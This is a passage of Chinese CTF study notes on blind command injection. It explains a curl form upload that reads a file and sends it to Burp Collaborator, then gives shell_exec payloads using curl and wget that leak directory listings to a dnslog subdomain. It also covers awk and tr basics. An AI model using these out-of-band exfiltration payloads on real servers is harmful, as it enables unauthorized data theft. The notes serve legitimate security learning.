 - 前面是变量覆盖
- -X指定请求的方式 -F/--form <name=content> 模拟http表单提交数据 
- 后面的二级域名是在Burp中复制的
- @用于读取文件内容
- 如果没有@，就是这样的

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669213260020-f4b98bb0-12ae-4df8-b302-5e3519cf2bf8.png#averageHue=%23f7f7f7&clientId=ued28d905-c370-4&from=paste&height=222&id=u43282726&originHeight=488&originWidth=1052&originalType=binary&ratio=1&rotation=0&showTitle=false&size=20007&status=done&style=none&taskId=u53434653-d698-432e-ac77-596392398bc&title=&width=478.18180781750664)

##### 总结

- 相当于用@去读取了文件的内容，在 Burp Collaborator中可以看到request的包，因此就显示出了flag。

#### 利用dnslog带出

:::info
**对于带外命令，有时用ping不好使，可以用wget或curl**<br />shell_exec('curl `ls /`.x3c7at.dnslog.cn')<br />shell_exec('wget `ls /`.x3c7at.dnslog.cn')
:::

##### awk

[https://www.cnblogs.com/wangqiguo/p/5863266.html#_label0](https://www.cnblogs.com/wangqiguo/p/5863266.html#_label0)

- 它是文本处理命令

```shell
echo -e '11 22 33 44\naa bb cc dd' | awk '{print $3" "$2" "$1}'
输出：
33 22 11
cc bb aa
```

- 这里 | 的作用是 将前一个的输出作为下一个命令的输入

##### tr

[https://cloud.tencent.com/developer/article/1725968](https://cloud.tencent.com/developer/article/1725968)

```shell
echo "HELLO ITCAST" | tr 'A-Z' 'a-z' 
输出：
hello itcast 
```

- 把前面的字符串中的大写字母转成小写字母

```shell
echo aabbcc..#dd2 */dk4 | tr -d -c '0-9 \n'  
2 4
```

- -c 表示补集，-d表示删除。补集中包含了数字0~9、空格和换行符\n，所以没有被删除，其他字符全部被删除了。

##### 例题

### <br />
